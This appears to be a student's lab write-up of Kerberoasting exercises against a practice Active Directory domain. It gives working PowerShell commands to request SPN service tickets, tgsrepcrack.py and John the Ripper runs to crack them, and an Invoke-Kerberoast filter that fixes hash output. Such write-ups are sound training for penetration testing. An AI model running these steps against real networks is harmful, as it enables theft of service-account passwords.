










### 21.3.4.1 Exercises
#### 1. Repeat the manual effort of requesting the service ticket, exporting it, and cracking it by using the tgsrepcrack.py Python script.

1. Used the SPN we got from the Powershell Enumeration Script in 21.2.5.2.
   `{HTTP/CorpWebServer.corp.com}`

2. Loaded the KerberosRequestorSecurityToken class in Powershell

   ```powershell
   Add-Type -AssemblyName System.IdentityModel
   ```
   
3. Requested a service ticket using the `System.IdentityModel.Tokens.KerberosRequestorSecurityToken` constructor to load the ticket into local memory.

   ```powershell
   New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'
   ```

   

4. Used klist to show the cached tickets

   ```powershell
   klist
   ```

   

5. Use Mimikatz to dump the ticket to disk:
   

6. Transferred the file to Kali Linux then ran tgsrepcrack.py and gave it a wordlist and the service ticket to start cracking it.

   ```bash
   python3 /usr/share/kerberoast/tgsrepcrack.py wordlist.txt /ftphome/1-40a50000-offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
   ```

   


#### 2. Perform the same action with any other SPNs in the domain.

1. Used the SPN we got from the Powershell Enumeration Script in 21.2.5.2 and discovered the SPN `{sql_service@corp.com}`
   
2. Loaded the KerberosRequestorSecurityToken class in Powershell

   ```powershell
   Add-Type -AssemblyName System.IdentityModel
   ```

3. Requested a service ticket using the `System.IdentityModel.Tokens.KerberosRequestorSecurityToken` constructor to load the ticket into local memory.

   ```powershell
   New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'sql_service@corp.com'
   ```

   

4. Used klist to show the cached tickets

   ```powershell
   klist
   ```

   

5. Use Mimikatz to dump the ticket to disk:
   

6. Transferred the file to Kali Linux then ran `tgsrepcrack.py` and gave it a wordlist and the service ticket to crack it.

   ```bash
   python3 /usr/share/kerberoast/tgsrepcrack.py /home/coyote/oscplab/activedirectory/wordlist.txt /ftphome/1-40a10000-offsec@sql_service-CORP.COM.kirbi
   ```
   
   


#### 3. Crack the same service ticket using John the Ripper.

1. The Kirbi2John.py script from both Kerberoast and JTR didn't work for me (one didn't output anything, the other created a file that JTR wouldn't recognize), so I download the newest one and used the Kirbi2John.py from it - https://github.com/nidem/kerberoast

2. Convert the kirbi file to JTR format

   

3. Crack the password with JTR

   ```bash
   john --format=krb5tgs ./sql_jtr_hash --wordlist=/home/coyote/oscplab/activedirectory/wordlist.txt
   ```

   

#### 4. Use the Invoke-Kerberoast.ps1 script to repeat these exercises.

1. Dot-sourced it `. .\Invoke-Kerberoast.ps1`

2. There is an issue with how this script outputs the hash, so I had to research to find that out and use a custom filter with it.  
   `Invoke-Kerberoast -OutputFormat john | Select-Object -ExpandProperty hash |% {$_.replace(':',':$krb5tgs$23$')}`

   

3. Even with that custom filter, there is another issue if the SPN contains a colon, so I had to fix that by removing the extra `$krb5tgs$23$` that it had inserted into the hash before the port 1433.

4. I plugged that modified hash into JTR and retrieved the password:
   

5. I never looked back at doing things the traditional way, this is way easier.